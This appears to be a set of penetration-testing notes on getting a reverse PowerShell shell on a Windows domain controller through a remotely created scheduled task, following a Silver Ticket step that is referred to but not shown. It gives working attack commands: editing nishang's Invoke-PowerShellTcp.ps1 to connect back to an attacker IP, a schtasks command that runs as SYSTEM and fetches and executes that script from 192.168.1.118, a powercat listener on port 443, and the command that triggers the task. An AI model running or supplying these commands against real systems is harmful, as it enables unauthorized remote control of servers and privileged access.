





Schedule Reverse Powershell(option 2)
Github InvokePowershellTcp.ps1: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
Github powercat.ps1: https://github.com/besimorhino/powercat/blob/master/powercat.ps1
schtasks single and double quotes problem: https://stackoverflow.com/questions/26400674/single-quotes-in-schtasks-command
2. Download Invoke-PowerShellTcp.ps1 from https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 and at the end of the file add Invoke-PowerShellTcp -Reverse -IpAddress [AttackerIP] -Port [AttackerPort]

3. Use a program to make a HTTP File Server like HFS. And upload the just edited Invoke-PowerShellTcp.ps1

5. Schedule and execute a task
Remember that the value of /TR cannot be more than 261 characters.
schtasks does not allow use single quotes because of that we had to use a lot of backslash(\), and backtip(`).
This is been explained on this post of stackoverflow. We can summarize it by saying that when we use schtasks we have to use:
▪ Quotes “ → ”
▪ SubQuotes → \`"
▪ SubSubQuotes → \\\`"
PS> schtasks /create /S testdc.daniele.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -nop -exec bypass -c \`"IEX(New-Object Net.WebClient).DownloadString(\\\`"http://192.168.1.118/Invoke-PowerShellTcp.ps1\\\`"); \`""
◇ If we give us: "ERROR:Access Denied" maybe is because the Silver Ticket is older than 20 minutes. This mean we have to remake it(Point 1)
◇ If we give use: “ERROR: No mapping between account names and security IDs was done” maybe the username for /RU [username] does not exist.
try “Administrator” or "NT Authority\SYSTEM"

If we have access to the Windows Server, we can go to:
Server Manager → Tools → Task Manager → Task Schedule Library → right click on our task → Proprieties → Actions
we can see that the command will be reinterpreted and executed like that by the Windows Server:

6. We can check if the task is been created by querying the server:
PS> schtasks /query /S testdc.daniele.local

7. Now we have to create a channel listening on our machine on the Port specified(in our case 443)
PS> IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1")
PS> powercat -l -v -p 443 -t 1000 #listening on port 443
PS> powercat -l -v -p 443 -t 1000 #listening on port 443

8. Now we can run the scheduled task “STCheck” created before
PS> schtasks /Run /S testdc.daniele.local /TN "STCheck"

-nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString(\"http://192.168.1.118/Invoke-PowerShellTcp.ps1\"); "